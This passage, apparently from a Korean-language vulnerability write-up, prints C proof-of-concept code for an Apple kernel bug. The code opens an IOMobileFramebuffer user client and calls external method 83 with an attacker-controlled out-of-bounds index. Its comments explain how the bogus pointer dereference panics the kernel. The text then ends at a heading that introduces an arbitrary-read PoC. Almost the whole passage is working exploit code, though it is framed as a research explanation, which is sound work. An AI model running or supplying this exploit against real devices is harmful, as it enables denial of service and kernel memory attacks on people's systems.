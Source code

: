 ```c
// 2) Open a connection (user client) to the service.
//    The user client is what exposes external methods to userland.
//    'type' selects which user client class/variant to instantiate.
ret = IOServiceOpen(service, mach_task_self(), type, &shared_user_client_conn);
if (ret != KERN_SUCCESS) {
printf("failed to open userclient: %s\n", mach_error_string(ret));
return;
}

printf("client: 0x%x\n", shared_user_client_conn);

printf("call externalMethod\n");

// 3) Prepare input scalars for the external method call.
//    The vulnerable path uses a 32-bit scalar as an INDEX into an internal
//    array of pointers WITHOUT bounds checking (OOB read / type confusion).
//    We set it to a large value to force the out-of-bounds access.
uint64_t scalars[4] = { 0x0 };
scalars[0] = 0x41414141; // **Attacker-controlled index** → OOB pointer lookup

// 4) Prepare output buffers (the method returns a scalar, e.g. a surface ID).
uint64_t output_scalars[4] = { 0 };
uint32_t output_scalars_size = 1;

printf("call s_default_fb_surface\n");

// 5) Invoke external method #83.
//    On vulnerable builds, this path ends up calling:
//      IOMobileFramebufferUserClient::s_displayed_fb_surface(...)
//      → IOMobileFramebufferLegacy::get_displayed_surface(...)
//      which uses our index to read a pointer and then passes it as IOSurface*.
//    If the pointer is bogus, IOSurface code will dereference it and the kernel
//    will panic (DoS).
ret = IOConnectCallMethod(
shared_user_client_conn,
83,                 // **Selector 83**: vulnerable external method
scalars, 1,         // input scalars (count = 1; the OOB index)
NULL, 0,            // no input struct
output_scalars, &output_scalars_size,  // optional outputs
NULL, NULL);        // no output struct

// 6) Check the call result. On many vulnerable targets, you'll see either
//    KERN_SUCCESS right before a panic (because the deref happens deeper),
//    or an error if the call path rejects the request (e.g., entitlement/type).
if (ret != KERN_SUCCESS) {
printf("failed to call external method: 0x%x --> %s\n",
ret, mach_error_string(ret));
return;
}

printf("external method returned KERN_SUCCESS\n");

// 7) Clean up the user client connection handle.
IOServiceClose(shared_user_client_conn);
printf("success!\n");
}
```
## 임의 읽기 PoC 설명

